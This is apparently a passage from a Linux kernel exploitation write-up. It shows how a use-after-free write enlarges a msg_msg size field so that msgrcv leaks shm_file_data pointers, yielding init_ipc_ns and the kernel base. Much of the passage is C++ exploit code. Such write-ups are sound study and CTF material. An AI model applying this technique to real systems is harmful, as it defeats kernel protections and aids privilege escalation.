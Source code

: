 1. We will create msg_msg with size 0x1010 (PAGE_SIZE + 0x10) so that we can have kmalloc-4096 and kmalloc-32 allocated. We `send_msg(qid, message, size - 0x30, 0);` subtract 0x30 since that is the header size. *It really should be subtracting `0x38`. `0x30`(msg_msg header) - `0x8` (msg_msgseg).
2. Spray kmalloc-32 with [shm_file_data](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628#shm_file_data) so that we can leak the `init_ipc_ns` address to get kernel base.
3. Use UaF write to overwrite `m_ts` with bigger value so that we can read after our kmalloc-32 pointer.
4. Use `get_msg()` to read multiple shm_file_data's kmalloc-32 pointer after our's from msg_msg.
5. Find `init_ipc_ns` address from shm_file_data pointer so that we can calculate kernel base.


### UaF Write to Change m_ts msg_msg Size
```cpp
msg_header evil;
size = 0x1400;
memset((void *)&evil, 0, sizeof(msg_header));
evil.ll_next = (void *)0x4141414141414141;
evil.ll_next = (void *)0x4242424242424242;
evil.m_type = 1;
evil.m_ts = size;
memset(buffer, 0, sizeof(buffer));
memcpy(buffer, (void *)&evil, 0x20);
// here we override the overlapped msg_msg with our own buffer
memcpy(buf, buffer, 0x20);
return 0x20;
```

### Reading kmalloc-32 pointers to get init_ipc_ns address

Once we overwrite the size, next time we call `get_msg()` (which calls `msgrcv`), we will get more data

```cpp
char recieved[0x2000] = {0};
// max size before we use msg_seg. (if we go over this we will just segfault)
int size = 0x2000;
// we should recv more now
get_msg(qid, recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

uint64_t init_ipc_ns = 0;
int found_ipc_ns = 0;
// for (int i = 0xff8 / 8; i < (0xff8 / 8) + 0x10; i++)
for (int i = 0xf00 / 8; i < size / 8 && i < 0x1200 / 8; i++)
{
    init_ipc_ns = *(uint64_t *)(recieved + i * 8);
    printf("[%u]: %p\n", i, (void *)init_ipc_ns);

    if ((init_ipc_ns & 0xffff) == (kern.find_sym("./kallsyms.txt", "init_ipc_ns") & 0xffff))
    {
        found_ipc_ns = 1;
        break;
    }
}
```
